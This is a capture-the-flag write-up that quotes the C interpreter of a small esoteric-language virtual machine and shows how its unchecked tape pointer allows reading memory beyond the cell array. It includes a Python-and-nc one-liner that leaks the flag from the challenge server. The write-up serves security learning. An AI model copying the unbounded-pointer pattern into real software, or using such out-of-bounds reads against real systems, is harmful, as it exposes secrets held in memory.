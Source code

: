 esoteric
========

## Challenge info:

`esoteric` is a virtual machine that's controlled by `esoteric-lang`. You can read more documentation about it at http://challenges.matrix8.net/esoteric/.
There's a virtual machine running on the host below, and we've managed to capture the source code to the virtual machine. There are problems with this virtual machine though. Can you exploit it and get the flag?
Connect using your CTF shell: `nc challenges.ctfd.io 30128`

## Solution:

Reviewing the documentation reveals `esoteric` to be a fairly rudimental language, conceptually similar to a Turing machine - increment/decrement/print a byte, move along a tape of sorts and simple looping. Looking at the code shows it merely generates and runs an abstract syntax tree from the submitted code, so let's take a look at the run function:
```c
void run_ast(struct node *prog) {
	char f[256] = {0};
	char cells[500] = {0};
	char *ip = cells;

	flag(f);

	while (prog != NULL) {
		switch (prog->type) {
			// cell value ops
			case TOK_CELL_INC: ++*ip; break;
			case TOK_CELL_DEC: --*ip; break;

			// instruction pointer ops
			case TOK_IP_INC: ++ip; break;
			case TOK_IP_DEC: --ip; break;

			// i/o ops
			case TOK_PRINT_CHAR: putchar(*ip); break;

			// loop ops
			case TOK_LOOP:	if (*ip != 0) prog = prog->body; break;
			case TOK_LOOP_END:	
				while (prog->prev != NULL) prog = prog->prev;
				if (*ip == 0) prog = prog->parent;
				break;

			default: ;
		}
		prog = prog->next;
	}
}
```
There's nothing special about this function - store the flag and the interpreter tape in their respective arrays and handle program logic. The code for moving the pointer to the current cell, however, doesn't prevent moving the pointer off of the tape entirely:
```c
// instruction pointer ops
case TOK_IP_INC: ++ip; break;
case TOK_IP_DEC: --ip; break;
```
Knowing that, it should be possible to read any desired location in memory, including that of the flag:
```
$ python -c 'print("}" * 499 + "}!" * 65 + "\n")' | nc challenges.ctfd.io 30128
esoteric REPL v0.1
> Equifax{no_bounds_checking_in_the_esoteric_virtual_machine_oops}
```
P.S. You could paste the code for this challenge into [Compiler Explorer](https://godbolt.org/) as well to check how close the arrays were in memory, but the cells array and the flag array don't seem to be contiguous in memory until you pass the -O2 compiler option; this makes the resulting code far more difficult to parse if you've never experienced x86 assembly before - I have a basic knowledge and it took me a good while before I convinced myself the two arrays were next to each other.
